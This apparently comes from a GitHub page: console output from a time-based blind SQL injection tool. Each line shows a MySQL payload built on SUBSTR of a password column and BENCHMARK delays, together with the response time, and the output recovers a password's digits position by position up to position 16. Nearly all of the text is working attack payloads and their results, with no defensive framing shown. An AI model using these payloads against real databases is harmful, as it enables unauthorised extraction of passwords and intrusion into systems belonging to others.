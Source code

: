 ```shell
[*] Payload: IF(SUBSTR(password,1,1)=6,BENCHMARK(100000,SHA1(1337)),0) | took 0.12526 seconds | digit: 6 | position: 1
[*] Payload: IF(SUBSTR(password,1,1)=7,BENCHMARK(100000,SHA1(1337)),0) | took 0.08116 seconds | digit: 7 | position: 1
[*] Payload: IF(SUBSTR(password,1,1)=8,BENCHMARK(100000,SHA1(1337)),0) | took 0.07868 seconds | digit: 8 | position: 1
[*] Payload: IF(SUBSTR(password,1,1)=9,BENCHMARK(100000,SHA1(1337)),0) | took 0.11277 seconds | digit: 9 | position: 1
----------------------------------------------------------------------------------------------------------------------
[*] Payload: IF(SUBSTR(password,2,1)=0,BENCHMARK(100000,SHA1(1337)),0) | took 1.24198 seconds | digit: 0 | position: 2
[*] Payload: IF(SUBSTR(password,2,1)=1,BENCHMARK(100000,SHA1(1337)),0) | took 0.13085 seconds | digit: 1 | position: 2
[*] Payload: IF(SUBSTR(password,2,1)=2,BENCHMARK(100000,SHA1(1337)),0) | took 0.13945 seconds | digit: 2 | position: 2
[*] Payload: IF(SUBSTR(password,2,1)=3,BENCHMARK(100000,SHA1(1337)),0) | took 0.08345 seconds | digit: 3 | position: 2
[*] Payload: IF(SUBSTR(password,2,1)=4,BENCHMARK(100000,SHA1(1337)),0) | took 0.11109 seconds | digit: 4 | position: 2
[*] Payload: IF(SUBSTR(password,2,1)=5,BENCHMARK(100000,SHA1(1337)),0) | took 5.67535 seconds | digit: 5 | position: 2
[*] Payload: IF(SUBSTR(password,2,1)=6,BENCHMARK(100000,SHA1(1337)),0) | took 0.11492 seconds | digit: 6 | position: 2
[*] Payload: IF(SUBSTR(password,2,1)=7,BENCHMARK(100000,SHA1(1337)),0) | took 0.15960 seconds | digit: 7 | position: 2
[*] Payload: IF(SUBSTR(password,2,1)=8,BENCHMARK(100000,SHA1(1337)),0) | took 0.06831 seconds | digit: 8 | position: 2
[*] Payload: IF(SUBSTR(password,2,1)=9,BENCHMARK(100000,SHA1(1337)),0) | took 0.11744 seconds | digit: 9 | position: 2
----------------------------------------------------------------------------------------------------------------------
[...]
[*] Payload: IF(SUBSTR(password,16,1)=0,BENCHMARK(100000,SHA1(1337)),0) | took 7.03059 seconds | digit: 0 | position: 16
[*] Payload: IF(SUBSTR(password,16,1)=1,BENCHMARK(100000,SHA1(1337)),0) | took 0.08455 seconds | digit: 1 | position: 16
[*] Payload: IF(SUBSTR(password,16,1)=2,BENCHMARK(100000,SHA1(1337)),0) | took 0.07786 seconds | digit: 2 | position: 16
[*] Payload: IF(SUBSTR(password,16,1)=3,BENCHMARK(100000,SHA1(1337)),0) | took 0.10718 seconds | digit: 3 | position: 16
[*] Payload: IF(SUBSTR(password,16,1)=4,BENCHMARK(100000,SHA1(1337)),0) | took 0.08418 seconds | digit: 4 | position: 16
[*] Payload: IF(SUBSTR(password,16,1)=5,BENCHMARK(100000,SHA1(1337)),0) | took 0.07271 seconds | digit: 5 | position: 16
[*] Payload: IF(SUBSTR(password,16,1)=6,BENCHMARK(100000,SHA1(1337)),0) | took 0.11083 seconds | digit: 6 | position: 16
[*] Payload: IF(SUBSTR(password,16,1)=7,BENCHMARK(100000,SHA1(1337)),0) | took 0.23968 seconds | digit: 7 | position: 16
[*] Payload: IF(SUBSTR(password,16,1)=8,BENCHMARK(100000,SHA1(1337)),0) | took 0.07382 seconds | digit: 8 | position: 16
[*] Payload: IF(SUBSTR(password,16,1)=9,BENCHMARK(100000,SHA1(1337)),0) | took 0.17193 seconds | digit: 9 | position: 16
------------------------------------------------------------------------------------------------------------------------
```
